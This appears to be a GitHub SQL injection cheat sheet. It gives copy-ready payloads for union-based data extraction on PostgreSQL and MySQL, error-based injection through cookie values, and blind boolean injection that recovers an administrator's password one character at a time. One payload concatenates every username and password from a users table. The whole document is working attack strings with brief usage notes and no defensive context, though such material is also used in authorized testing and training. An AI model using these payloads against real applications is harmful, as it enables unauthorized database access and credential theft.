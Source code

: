 ### PostgreSQL Database info retrieving
```sql
' union SELECT table_name,null FROM information_schema.tables-- -

' union SELECT column_name,null FROM information_schema.columns WHERE table_name='[table name]'-- -

' union select [column name here],null from [table name here]-- -

' union select 1, column1 || colum2 from [database name here]-- -

'||(select column1 from [table name here] limit 1)-- - >> Visible error based sqli in cookie value.

'||cast((select column1 from [table name here] LIMIT 1) AS INT)-- >> Visible error based sqli in cookie value.

' union select null, (SELECT string_agg(username || ':' || password, ', ') FROM users)-- - Retrieving multiple values in a single column
```

### Mysql Database info retrieving
```sql
' union SELECT table_name,null,null FROM information_schema.tables where table_schema='[Database name here]'

' union SELECT null,null,column_name,null FROM information_schema.columns where table_name='[table name]' limit 0,1

' union select null,null,[column name here],null from [table name here]

and 1=2 union SELECT table_name,null,null FROM information_schema.tables where table_schema='[Database name here]' >> Without qoute in vulnerable parameter

and 1=2 union SELECT null,null,column_name,null FROM information_schema.columns where table_name='[table name]' limit 0,1

and 1=2 union select null,null,[column name here],null from [table name here]
```

### Blind based Boolean SQL injection with conditional responses (Visible message)
```sql
' and (select 'x' from users LIMIT 1)='x'-- - >> To determine if the [users] table is exist or not.

' and (select username from users where username='administrator')='administrator'-- - >> To determine the username

' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'-- -

' and (select SUBSTRING(password,1,1) from users where username='administrator')='a'-- -

' or LENGTH(username)<=7
```
